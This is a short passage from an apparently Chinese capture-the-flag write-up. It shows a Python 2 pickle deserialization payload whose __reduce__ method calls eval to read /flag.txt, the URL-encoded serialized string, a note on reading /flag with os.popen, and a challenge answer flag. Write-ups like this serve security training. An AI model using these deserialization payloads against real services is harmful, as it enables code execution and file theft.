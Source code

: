 使用 `os.popen(‘cat /flag’).read()`这种执行方式是可以有回显的。所以直接读取flag即可

> python2 脚本

```py
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```

```
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

![](img/3/20.png)


---

## ciscn2019华北赛区半决赛day2_web1 题解

flag{8825ac9d-c0b1-45ec-8f0c-36af77de8703}


